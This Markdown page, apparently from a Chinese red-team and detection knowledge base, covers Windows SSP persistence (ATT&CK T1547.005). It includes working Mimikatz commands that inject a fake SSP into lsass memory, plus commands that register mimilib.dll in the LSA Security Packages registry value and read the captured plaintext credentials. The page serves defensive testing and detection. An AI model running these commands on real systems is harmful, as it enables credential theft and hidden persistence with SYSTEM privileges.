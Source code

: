 # T1547-005-Win-SSP权限维持

## 描述

攻击者通过注册恶意的Windows安全支持提供程序（Security Support Provider, SSP）动态链接库（DLL）实现持久化（T1547.005）。SSP是Windows身份验证机制的核心组件（如Kerberos、NTLM），以DLL形式在系统启动时加载到本地安全机构（Local Security Authority, LSA）进程（`lsass.exe`）中，可访问加密和明文凭据（如域密码、PIN码）。SSP配置存储在注册表`HKLM\SYSTEM\CurrentControlSet\Control\Lsa\Security Packages`和`HKLM\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\Security Packages`中。

攻击者可通过添加恶意SSP DLL到这些注册表键，在系统重启或调用`AddSecurityPackage` API时加载，窃取凭据（如明文密码）或执行任意代码。由于`lsass.exe`是高权限系统进程，恶意SSP以SYSTEM权限运行，隐蔽性强且难以检测。攻击者常使用工具如Mimikatz实现内存注入或持久化DLL注册。检测重点在于监控SSP注册表修改、异常DLL加载及`lsass.exe`行为。

## 测试案例

1. **内存注入SSP（非持久化）**  
   使用Mimikatz将伪造SSP注入`lsass.exe`内存，捕获登录凭据，无需磁盘文件，但重启后失效。  
2. **注册持久化SSP DLL**  
   将恶意DLL（如Mimikatz的`mimilib.dll`）部署到`System32`并添加到SSP注册表，系统重启后持续捕获凭据。  
3. **触发AddSecurityPackage API**  
   动态调用API加载恶意SSP，绕过重启需求。  

### 示例命令
#### 方法一：内存注入SSP
- **攻击命令**（需SYSTEM权限）：
  ```cmd
  mimikatz.exe "privilege::debug" "misc::memssp" exit
  ```
  - 注入伪造SSP，凭据记录在`C:\Windows\System32\mimilsa.log`。  
- **验证凭据**：
  ```cmd
  type C:\Windows\System32\mimilsa.log
  ```

#### 方法二：注册持久化SSP DLL
- **攻击命令**（需SYSTEM权限）：
  ```cmd
  copy mimilib.dll %SystemRoot%\System32
  reg add "HKLM\SYSTEM\CurrentControlSet\Control\Lsa" /v "Security Packages" /t REG_MULTI_SZ /d "kerberos\0msv1_0\0schannel\0wdigest\0tspkg\0pku2u\0mimilib" /f
  ```
  - 部署`mimilib.dll`并更新SSP注册表，凭据记录在`C:\Windows\System32\kiwissp.log`。  
- **验证注册表**：
  ```cmd
  reg query HKLM\SYSTEM\CurrentControlSet\Control\Lsa /v "Security Packages"
  ```
- **验证凭据**（重启后）：
  ```cmd
  type C:\Windows\System32\kiwissp.log
  ```
